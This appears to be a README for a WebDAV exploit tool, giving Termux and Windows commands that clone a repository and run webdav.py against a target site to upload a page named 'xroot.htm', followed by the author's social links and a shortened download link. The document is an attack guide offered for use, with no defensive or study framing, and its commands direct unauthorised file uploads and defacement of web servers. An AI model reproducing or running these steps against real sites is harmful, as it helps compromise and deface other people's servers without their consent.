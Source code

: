 # Exploit Webdav Windows & Termux Working

# Eksekusi via Termux

pkg update && pkg upgrade

pkg install -y git python2 curl php wget 

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod +x webdav.py

python2 webdav.py sitevuln.com xroot.htm

================================================================================
# Eksekusi via Window

Download Python27 : https://shortid.co/bFWBm

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod 777 webdav.py

python webdav.py sitevuln.com xroot.htm

================================================================================






My Youtube : https://www.youtube.com/channel/UCKdOPQ_iIXcqK17PB_2RMdQ

My Website : http://hackingforlive.cf

My Facebok : https://web.facebook.com/xroot.xroot.7

Moto : Berbagi Itu Indah

Regard Boychongzen aka Xroot

